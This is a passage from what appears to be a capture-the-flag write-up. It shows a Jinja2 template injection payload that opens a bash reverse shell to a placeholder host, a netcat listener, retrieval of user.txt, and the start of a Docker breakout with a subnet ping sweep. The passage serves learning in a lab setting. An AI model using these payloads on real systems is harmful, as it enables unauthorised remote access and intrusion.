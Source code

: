 Payload:

    {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1"').read() }}

Before input the payload, first I ran up `netcat` listener: `nc -lvnp YOUR-PORT`. After ran up the netcat listener, I input the payload on the web and got the reverse shell.

After got the reverse shell, I tried to continue on my own without looked up to write up.

## User.txt

After obtaining shell, I moved to `/home` directory and found that there is a user with name `augustus`. I moved to `augustus` directory and found the user.txt

<div align="center">
  <img src="https://github.com/user-attachments/assets/f3756726-8e05-4314-a55b-2d60215734dd">
</div>
<div align="center">
user.txt
</div>
</br>

## Root.txt

Again, for like 30 minutes, I didn't know what to do. So, I looked up again to the write up earlier and turns out the shell I was in was a docker container and I needed to 'break out' from the container.

### 'Breaking out' from Docker container

By following the write up, to do this, first I needed to know the IP of the docker container. I used `ip a` to see it.

<div align="center">
  <img src="https://github.com/user-attachments/assets/70212720-18e7-427c-9895-02837268d0bc">
</div>
<div align="center">
docker container IP
</div>
</br>

The docker run on `172.19.0.2` with subnet `\16`.

### Enumerating service

Next, I tried to find another IP in the subnet. To do this, I used this command:

    for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;


<div align="center">
  <img src="https://github.com/user-attachments/assets/28e23640-57bd-4ad4-943c-81f3815991b1">
</div>
<div align="center">
another ip
</div>
</br>
